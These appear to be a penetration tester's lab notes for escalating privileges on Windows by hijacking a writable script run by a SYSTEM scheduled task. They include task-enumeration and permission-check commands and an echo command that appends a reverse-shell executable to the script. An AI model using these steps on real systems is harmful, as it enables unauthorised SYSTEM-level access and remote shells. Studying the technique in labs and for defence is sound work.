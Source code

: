 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Unfortunately, there is no easy method for enumerating custom tasks that belong to other users as a low privileged user account.

List all scheduled tasks your user can see:

```command prompt - windows
schtasks /query /fo LIST /v
```

In PowerShell:

PS>
```command prompt - windows
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

Often we have to rely on other clues, such as finding a script or log file that indicates a scheduled task is being run.

1. In the C:\DevTools directory, there is a PowerShell script called “CleanUp.ps1”. View the script:

```command prompt - windows
type C:\DevTools\CleanUp.ps1
```

2. This script seems like it is running every minute as the SYSTEM user. We can check our privileges on this script using accesschk.exe:

```command prompt - windows
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

It appears we have the ability to write to this file.

3. Backup the script:

```command prompt - windows
copy C:\DevTools\CleanUp.ps1 C:\Temp\
```

4. Start a listener on Kali.

[[rlwrap]]

5. Use echo to append a call to our reverse shell executable to the end of the script:

[[1._Reverse Shells (WIN)#MSFVenom]]

```command prompt - windows
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

6. Wait for the scheduled task to run (it should run every minute) to complete the exploit.